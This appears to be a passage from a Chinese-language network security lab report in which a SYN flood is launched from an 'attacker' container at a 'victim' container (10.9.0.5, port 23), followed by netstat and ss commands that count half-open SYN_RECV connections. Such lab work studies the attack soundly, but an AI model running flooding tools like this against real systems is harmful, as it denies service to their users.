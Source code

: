在 `attacker` 容器中執行 `synflood` 進行 SYN Flood 攻擊:

```bash
./synflood 10.9.0.5 23
```

在 `victim` 容器中執行以下指令查看 TCP 連線狀態和 SYN_RECV 狀態的連線數量:

```
netstat -nat
netstat -nat | grep SYN_RECV | wc -l
ss -n state syn-recv sport = :23 | wc -l
```

![](./hw0402/assets/task1-3-2.jpg)

![](./hw0402/assets/task1-3-3.jpg)
